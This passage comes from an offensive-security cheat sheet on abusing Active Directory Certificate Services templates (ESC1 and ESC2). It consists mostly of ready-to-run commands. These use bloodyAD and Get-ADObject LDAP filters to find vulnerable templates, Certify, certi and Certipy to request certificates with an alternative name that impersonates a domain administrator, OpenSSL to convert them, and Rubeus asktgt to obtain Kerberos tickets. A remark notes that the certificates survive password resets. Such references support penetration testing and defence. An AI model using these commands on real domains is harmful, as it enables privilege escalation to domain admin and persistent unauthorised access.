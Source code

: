     python bloodyAD.py -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=lab,DC=local' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))'
    ```

* Use Certify, [Certi](https://github.com/eloypgz/certi) or [Certipy](https://github.com/ly4k/Certipy) to request a Certificate and add an alternative name (user to impersonate)

    ```ps1
    # request certificates for the machine account by executing Certify with the "/machine" argument from an elevated command prompt.
    Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
    certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
    certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
    ```

* Use OpenSSL and convert the certificate, do not enter a password

    ```ps1
    openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
    ```

* Move the cert.pfx to the target machine filesystem and request a TGT for the altname user using Rubeus

    ```ps1
    Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
    ```

**WARNING**: These certificates will still be usable even if the user or computer resets their password!

**NOTE**: Look for **EDITF_ATTRIBUTESUBJECTALTNAME2**, **CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT**, **ManageCA** flags, and NTLM Relay to AD CS HTTP Endpoints.

## ESC2 - Misconfigured Certificate Templates

**Requirements**

* Allows requesters to specify a Subject Alternative Name (SAN) in the CSR as well as allows Any Purpose EKU (2.5.29.37.0)

**Exploitation**

* Find template

  ```ps1
  PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
  # or
  python bloodyAD.py -u john.doe -p 'Password123!' --host 192.168.100.1 -d bloody.lab get search --base 'CN=Configuration,DC=megacorp,DC=local' --filter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))'
  ```
